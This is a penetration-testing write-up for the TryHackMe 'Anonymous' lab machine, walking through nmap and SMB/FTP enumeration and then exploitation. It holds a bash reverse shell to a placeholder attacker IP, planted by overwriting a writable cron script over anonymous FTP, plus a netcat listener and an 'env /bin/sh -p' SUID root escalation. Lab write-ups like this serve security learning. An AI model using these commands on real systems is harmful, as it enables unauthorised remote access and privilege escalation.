 ```yaml
---
title: Anonymous - TryHackMe
date: 2020/08/13
categories:
  - [pentesting, writeups]
---
```


Hello there! Today I am going to walk you through the Anonymous machine on [TryHackMe](https://tryhackme.com/room/anonymous).

Let’s first (as always) export the IP to a global variable, for easier reference later on. So when ever you see \$IP I am talking about the machines IP.

```bash
export IP={Machine IP}
```

## Enumeration

Let’s get started with an nmap scan:

```plain
nmap -T4 -A -p- $IP
```

Those are the results:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 13:27 EDT
Nmap scan report for 10.10.115.205
Host is up (0.096s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.25.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/9%OT=21%CT=1%CU=35520%PV=Y%DS=2%DC=T%G=Y%TM=5F303224
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11N
OS:W6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R
OS:=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2s, deviation: 1s, median: -2s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-08-09T17:27:57+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-08-09T17:27:57
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   41.06 ms  10.9.0.1
2   114.16 ms 10.10.115.205

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.36 seconds
```

We can already see that there are three interesting services running. SMB, FTP and SSH. I chose to have a look at SMB first and then work my way up.<br/>In the scan results we can see that guest login is allowed, so let’s make use of that.

First I used SMBMap to see what share we could access:

```plain
root@hades      :~# smbmap $IP
[+] Guest session       IP: 10.10.115.205:445   Name: 10.10.115.205
        Disk                                                    Permissions Comment
    ----                                                    ----------- -------
    print$                                              NO ACCESS   Printer Drivers
    pics                                                READ ONLY   My SMB Share Directory for Pics
    IPC$                                                NO ACCESS   IPC Service (anonymous server (Samba, Ubuntu))
```

The “pics” share seems interesting, but apparently this was a rabbit hole, there were literally just a few pictures on there.

So let’s move on to the next port. It is an FTP server with anonymous login enabled (always look closely at you scan results). I just logged in with the command line, like this:

```plain
root@hades      :~/ctf/thm/anonymous# ftp 10.10.115.205 21
Connected to 10.10.115.205.
220 NamelessOne's FTP Server!
Name (10.10.115.205:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

As the password I entered nothing and just pressed enter. We can move around the FTP server just like on a Linux machine and after looking around for a bit, I found three files:

```plain
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1763 Aug 09 17:45 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```

You can easily download them with “get” and then the file name (get [‘File name’]).

## Gaining Access

Only the bash script really is interesting for us. The todo just says to remove the anonymous login and the log is being generated by the clean.sh script. The script itself deletes all files from the /tmp directory, when run. Potentially this is a cron job?<br/>A cron job is something you can set up on your Linux machine to do tasks e.g. daily, monthly etc.

So if we can override the script we can let it do whatever we want (Spoiler: we can).

Just create a shell scipt and insert some kind of shell. I used this simple reverse shell, just insert you own IP:

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your tun0 IP]/8080 0>&1
```

And upload it with “put” and then the file name of the local file.

Then set up a netcat listener on you machine:

```bash
nc -lnvp 8080
```

Now you just need to wait a few seconds and you should be able to see a shell pop up, where you set up the listener.

### User Flag

You can now just cat out the user flag, which is located at /home/anonymous/user.txt .

## Privilege Escalation

I followed my routine and downloaded LinPeas on the target machine.<br/>It found an “env” SUID, which if you look it up on [GTFOBins](https://gtfobins.github.io/gtfobins/env/) is easily exploitable. Just run this simple command:

```bash
env /bin/sh -p
```

And there you go, you have root.

### Root Flag

And again you can just cat out the root flag, which is located at /root/root.txt this time.

## The End

And there you have it! I hope you had fun, I know I did 🦄
